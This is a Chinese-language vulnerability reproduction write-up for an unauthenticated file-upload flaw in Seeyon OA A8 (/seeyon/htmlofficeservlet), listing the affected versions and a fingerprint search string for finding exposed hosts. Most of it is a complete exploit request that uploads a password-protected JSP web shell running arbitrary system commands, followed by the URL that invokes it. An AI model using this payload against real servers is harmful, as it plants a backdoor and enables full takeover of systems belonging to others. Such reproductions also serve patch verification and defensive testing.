 # 致远OA A8 htmlofficeservlet 任意文件上传漏洞

## 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

## 网络测绘

```
title="致远A8-V5协同管理软件 V6.1sp1"
```

## 漏洞影响

```
致远A8-V5协同管理软件V6.1sp1
致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3
致远A8+协同管理软件V7.1
```

## 漏洞复现

访问目标站点

```
/seeyon/htmlofficeservlet
```

出现如下图响应，则可能含有漏洞

![image-20220520153223889](./images/202205201532921.png)

使用POST请求发出如下请求包

```
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("
<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```

![image-20220520153242842](./images/202205201532919.png)

出现如图响应则为上传成功,访问

```
/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir
```

![image-20220520153301492](./images/202205201533547.png)